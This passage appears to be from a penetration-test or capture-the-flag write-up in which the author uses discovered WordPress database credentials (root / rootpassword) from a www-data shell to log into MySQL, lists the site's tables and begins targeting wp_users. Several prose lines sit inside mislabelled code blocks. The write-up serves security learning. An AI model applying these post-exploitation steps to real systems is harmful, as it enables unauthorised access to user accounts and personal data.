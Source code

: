 
#### fINDINGS -DATABASE USER
```PYTHON
DATABASE USER:root
password: rootpassword
```

### MYSQL 
```python
using the discovered credentials, we can now see what is inside the local database. Let's list the available tables inside the wordpress database:
```
```javascript

www-data@ubuntu:/var/www/html/wordpress$ mysql -u root -p -D wordpress -e 'SHOW TABLES;'
<ml/wordpress$ mysql -u root -p -D wordpress -e 'SHOW TABLES;'               
Enter password: rootpassword!

+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_abtest_experiments      |
| wp_abtest_goal_hits        |
| wp_abtest_goals            |
| wp_abtest_ip_filters       |
| wp_abtest_variation_views  |
| wp_abtest_variations       |
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_masta_campaign          |
| wp_masta_cronapi           |
| wp_masta_list              |
| wp_masta_reports           |
| wp_masta_responder         |
| wp_masta_responder_reports |
| wp_masta_settings          |
| wp_masta_subscribers       |
| wp_masta_support           |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+

```python
User tables are always interesting to enumerate. Inside the wp_users table, we find a couple of records:
```
